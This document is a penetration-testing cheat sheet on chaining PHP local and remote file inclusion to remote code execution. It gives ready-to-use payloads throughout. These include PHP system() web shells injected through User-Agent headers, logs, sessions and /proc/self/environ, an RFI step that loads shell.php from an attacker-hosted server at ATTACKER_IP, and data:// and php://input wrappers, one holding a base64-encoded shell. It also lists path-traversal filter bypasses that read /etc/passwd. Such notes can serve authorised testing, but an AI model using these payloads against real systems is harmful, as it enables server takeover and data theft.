

# 🔗 LFI/RFI to RCE

> [!info] The Chain Attack
> File inclusion alone doesn't give RCE. Chain it to code execution.

---

## 💉 1. LFI to RCE via Log Poisoning

**Attack:** Read log files with injected PHP → execute

### Step 1: Poison Web Server Log

```bash
# Access with PHP payload in User-Agent
curl -A "<?php system(\$_GET['cmd']); ?>" http://TARGET/

# Or in URL
curl "http://TARGET/?file=<? system(\$_GET['cmd']); ?>"
```

### Step 2: Include Log File via LFI

```
?file=../../../../var/log/apache2/access.log&cmd=id
```

### Execution

```
- Log file now contains PHP code
- LFI includes log
- PHP executes
- RCE achieved!
```

---

## 📤 2. LFI to RCE via File Upload

**Attack:** Upload file → include via LFI

### Step 1: Upload Malicious File

```bash
# Upload shell.php to /uploads/
curl -F "file=@shell.php" http://TARGET/upload.php
```

### Step 2: Include via LFI

```
?file=../uploads/shell.php
```

### Execution

```
- Shell.php uploaded
- LFI includes it
- PHP executes
- RCE!
```

---

## 🔐 3. LFI to RCE via Null Byte (PHP < 5.3.4)

**Attack:** Null byte truncates .txt/.php extension

### Exploitation

```
?file=../../uploads/shell.php%00
# Becomes: /uploads/shell.php (null byte truncates)

# Then include
?file=../../uploads/shell.php%00.txt
```

---

## 🌐 4. RFI to RCE (Simplest)

**Attack:** Include remote PHP file from attacker's server

### Attacker Setup

```bash
# 1. Create shell.php
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 2. Start HTTP server
python3 -m http.server 8000
```

### Target Exploitation

```
?file=http://ATTACKER_IP:8000/shell.php&cmd=id
```

### Execution

```
- Include remote PHP file
- Executes on target
- RCE!
```

---

## 📑 5. LFI to Code Execution via Session Files

**Attack:** PHP stores session in readable file → include & control

### Session Path (Common)

```
/var/lib/php/sessions/
/tmp/
```

### Exploitation

```bash
# 1. Create session variable with PHP code
# Visit: http://TARGET/login.php?username=<?php system($_GET['cmd']); ?>

# 2. Read PHPSESSID cookie
# PHPSESSID=abcd1234

# 3. Include session file
?file=/var/lib/php/sessions/sess_abcd1234&cmd=id
```

---

## 🔑 6. LFI to RCE via /proc/self/environ

**Attack:** Read environment variables → inject code → include

### Exploitation

```bash
# 1. Inject into User-Agent (stored in environ)
curl -A "<?php system(\$_GET['cmd']); ?>" http://TARGET/

# 2. Include environ
?file=/proc/self/environ&cmd=id
```

---

## 💾 7. LFI to RCE via /proc/self/fd/

**Attack:** Read file descriptors → includes open files

### Exploitation

```bash
# File descriptors are numbered
?file=/proc/self/fd/3   # fd 3 = often log file
```

---

## 📋 8. RFI with Wrapper Functions

**Attack:** Use PHP wrappers to execute code

### PHP Wrapper for RCE

```php
?file=data://text/plain,<?php system($_GET['cmd']); ?>

?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+

?file=php://input
# POST: <?php system($_GET['cmd']); ?>
```

---

## 🎯 LFI to RCE Decision Tree



---

## 🛡️ Bypass LFI Filters

### Null Byte
```
shell.php%00.jpg → shell.php (PHP < 5.3.4)
```

### Path Traversal Variations
```
....//....//....//etc/passwd
..\/..\/..\/etc/passwd
....\\....\\....\\windows\\system32
```

### Case Change
```
..//..//..//etc/passwd
....////....////....////etc/passwd
```

### Encoding
```
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

---

## 📋 Checklist

- [ ] Identify LFI/RFI vulnerability
- [ ] Test file upload capability
- [ ] Attempt log poisoning
- [ ] Check RFI enabled
- [ ] Try wrapper functions
- [ ] Attempt null byte bypass
- [ ] Read /etc/passwd or /proc/self/environ
- [ ] Chain to RCE

---

## 💡 Pro Tips

> [!tip] Log Poisoning is Reliable
> Most sites log HTTP headers. Poison with PHP → high success rate.

> [!tip] Always Try Upload First
> If file upload works, simplest path to RCE.

---

**Related Notes:**
- [[04-Web/Web-Vulnerabilities|🌐 Web Vulnerabilities]]
- [[04-Web/SQL-Injection|💉 SQL Injection]]

---
